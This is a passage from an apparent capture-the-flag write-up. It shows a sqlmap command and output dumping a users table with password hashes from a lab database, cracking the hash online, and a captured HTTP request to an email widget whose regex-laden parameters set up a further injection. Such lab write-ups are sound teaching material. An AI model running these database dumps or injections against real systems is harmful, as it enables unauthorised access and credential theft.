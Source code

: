 ```bash
sqlmap -r req.req -D jetadmin -T users --dump --batch
```

```bash
[15:59:20] [INFO] fetching columns for table 'users' in database 'jetadmin'
[15:59:20] [INFO] resumed: 'id'
[15:59:20] [INFO] resumed: 'int(11)'
[15:59:20] [INFO] resumed: 'username'
[15:59:20] [INFO] resumed: 'varchar(50)'
[15:59:20] [INFO] resumed: 'password'
[15:59:20] [INFO] resumed: 'varchar(191)'
[15:59:20] [INFO] fetching entries for table 'users' in database 'jetadmin'
[15:59:20] [INFO] retrieved: '1'
[15:59:20] [INFO] retrieved: 'CENSORED'
[15:59:20] [INFO] retrieved: 'admin'
[15:59:20] [INFO] recognized possible password hashes in column 'password'
```

Once the MD5 hash was discovered I was able crack it using [crackstation.net](https://crackstation.net/)  

## Flag

The flag can be found directly after logging in in the chat section  

# Command

You will love this one  

## Enumeration

There's not a lot to discover on the dashboard itself. Only thing that seems to work is the "Quick Email" widget  

After going through the whole process of sending an E-Mail I checked burp to see what's happening  

```http
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php HTTP/1.1
Host: www.securewebinc.jet
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 327
Origin: http://www.securewebinc.jet
Connection: close
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dashboard.php
Cookie: PHPSESSID=4gufjvu2ksv504vi9gocptl5d6
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

swearwords%5B%2Ffuck%2Fi%5D=make+love&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fi%5D=penis&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E&_wysihtml5_mode=1
```
